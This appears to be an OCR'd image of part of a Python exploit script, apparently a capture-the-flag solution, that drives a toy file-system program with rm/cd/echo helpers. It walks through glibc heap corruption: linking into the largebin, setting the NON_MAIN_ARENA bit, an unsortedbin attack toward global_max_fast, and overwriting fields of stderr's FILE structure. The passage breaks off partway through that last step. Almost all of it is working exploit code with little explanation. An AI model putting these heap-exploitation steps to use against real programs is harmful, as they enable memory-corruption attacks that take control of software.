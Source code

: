 ```python  
     echo("8","B"*stdoutmode_s)  
     print("[+] create some chunks for ADV2")  
     cd("../")

     # Connect to largebin and set NON_MAINARENA to 1 ######

     rm("./test1/LARGE")  
     cd("./test6")                       # connect to largebin  
     echo("2","\r"*0x600)

     cd("../test1")  
     echo("b",p64(0)+p64(0x460|0b101))   # set NON_MAIN_ARENA  
     cd("../")  
     print("[+] connected to large and set NON_MAIN_ARENA")

     # Unsortedbin Attack ###################################  
     rm("test1/a")  
     cd("./test1")  
     echo("a",p64(0)+p16(gmf-0x10))  
     echo("hoge","G"*0x450) # unsortedbin attack toward gmf  
     cd("../")  
     print("[!] Unsortedbin attack success??(4-bit entropy)")

     # Make unsortedbin's bk valid ########################  
     rm("./test4/1")  
     cd("test4")  
     echo("1",p64(0x460))  
     cd("../test5")  
     echo("1","\r"*dumpedend_s)  
     rm("../test4/2")  
     cd("../")  
     print("[*] made unsortedbin's bk valid")

     # Overwrite FILE of stderr ##########################

     # stderr_mode / 1  
     rm("./test4/3")  
     cd("./test4")  
     echo("3",p64(0x1))  
     cd("../test5")  
     echo("2","\r"*stderrmode_s)  
     cd("../")  
     print("[1/5] overwrite FILE of stderr")

     # stdout_mode / 1  
     rm("./test4/8")  
     cd("./test4")  
     echo("8",p64(0x1))  
     cd("../test5")  
     echo("3","\r"*stdoutmode_s)  
     cd("../")  
     print("[2/5] overwrite FILE of stderr")

     # stderr_flags / 0  
     rm("./test4/4")           # NO NEED IN THIS CASE...  
     cd("./test4")  
     echo("4",p64(0x0))  
     cd("../test5")  
     echo("4","\r"*stderrflags_s)  
     cd("../")  
     print("[3/5] overwrite FILE of stderr")

     # stderr_IO_write_ptr / 0x7fffffffffffffff  
```